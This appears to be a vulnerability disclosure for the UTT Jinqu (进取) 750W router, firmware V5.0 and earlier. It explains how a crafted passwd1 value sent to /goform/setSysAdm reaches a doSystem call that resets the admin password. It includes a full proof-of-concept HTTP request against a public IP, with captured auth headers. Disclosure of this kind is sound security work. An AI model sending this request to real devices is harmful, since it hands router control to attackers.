

# Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Reported by: **GuoHengyu(2183056014@qq.com)

**Affected products:** 进取 750W

**Affected firmware version:**  <=V5.0

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2599)

# Overview

A critical authorization vulnerability exists in the Jinqu 750W router.
 An attacker can exploit the `setSysAdm` action by carefully crafting the `passwd1` parameter, allowing them to modify the administrator password without authentication or authorization.
 The vulnerability is ultimately triggered by a call to `doSystem("chpasswd.sh %s %s", "admin", Var);`, leading to unauthorized control over the router's administrative privileges.


# Vulnerability details

Here is the location where the specific function is executed


The `setSysAdm` function is registered within the `formDefineManagement` function.
 By controlling the `passwd1` field, it is possible to reach the `doSystem` call and modify the router's password.


# POC

```
POST /goform/setSysAdm HTTP/1.1
Host: 111.39.48.97:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Digest username="admin", realm="UTT", nonce="4bd7962ad83619f3192727e9180b7a18", uri="/goform/FastConfFirstLoad", algorithm=MD5, response="7b587a8b535c02071eda599da4f79e9f", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=00000135, cnonce="c40ffd3ddc23969a"
Connection: close
Referer: http://111.39.48.97:8888/framePage.asp
Cookie: td_cookie=2505500309; utt_bw_rdevType=; language=zhcn
Upgrade-Insecure-Requests: 1
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

passwd1=admin111
```



